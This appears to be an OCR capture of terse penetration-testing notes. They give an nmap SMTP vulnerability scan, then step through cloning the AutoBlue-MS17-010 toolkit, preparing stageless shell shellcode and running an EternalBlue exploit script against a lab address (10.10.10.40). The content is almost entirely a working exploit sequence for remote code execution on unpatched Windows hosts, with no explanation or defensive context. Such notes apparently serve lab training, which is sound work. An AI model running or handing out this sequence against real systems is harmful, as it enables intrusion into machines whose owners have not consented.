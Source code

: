 # Recon
nmap --script smtp-vuln* -p [ports] [ip]

git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

cd AutoBlue-MS17-010
cd shellcode
./shell_prep.sh
      cmd shell
      stageless

python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin  [12,17]
